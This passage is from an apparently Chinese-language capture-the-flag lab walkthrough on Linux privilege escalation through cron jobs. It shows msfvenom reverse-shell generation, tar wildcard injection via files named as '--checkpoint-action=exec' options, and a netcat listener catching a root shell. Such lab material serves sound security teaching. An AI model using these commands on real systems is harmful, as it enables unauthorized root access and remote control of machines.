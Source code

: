 ```shell
rm /tmp/rootbash
exit
```

:::info Answer the questions below

`/etc/crontab` 文件中的 PATH 变量的值是什么？

<details><summary> 具体操作步骤 </summary></details>

```plaintext
/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

:::

## 定时任务 - 通配符

查看其他计划任务脚本的内容:

```shell
cat /usr/local/bin/compress.sh
```

请注意，tar 命令在您的主目录中使用了通配符 (*)。

查看 GTFOBins 页面上关于 [tar](https://gtfobins.github.io/gtfobins/tar/) 的信息。请注意，tar 具有命令行选项，可以作为检查点功能的一部分运行其他命令。

在您的 Kali 系统上使用 `msfvenom` 生成一个反向 shell ELF 二进制文件。根据需要更新 `LHOST IP` 地址：

```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```

将 `shell.elf` 文件传输到 Debian 虚拟机上的 `/home/user/` 目录（您可以使用 scp 或者在 Kali 系统上托管文件并使用 wget）。确保文件具有可执行权限：

```shell
chmod +x /home/user/shell.elf
```

在 `/home/user` 目录下创建这两个文件

```shell
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

当 cron 作业中的 tar 命令运行时，通配符（*）将会扩展以包括这些文件。由于它们的文件名是有效的 tar 命令行选项，tar 会将它们识别为选项而不是文件名。

在您的 Kali 系统上的端口 4444 上设置一个 netcat 监听器，并等待 cron 作业运行（不应该超过一分钟）。一个 root shell 应该会连接回您的 netcat 监听器。

```shell
nc -nvlp 4444
```

记得退出 root shell 并删除您创建的所有文件，以防止 cron 作业再次执行：

```shell
rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf
```
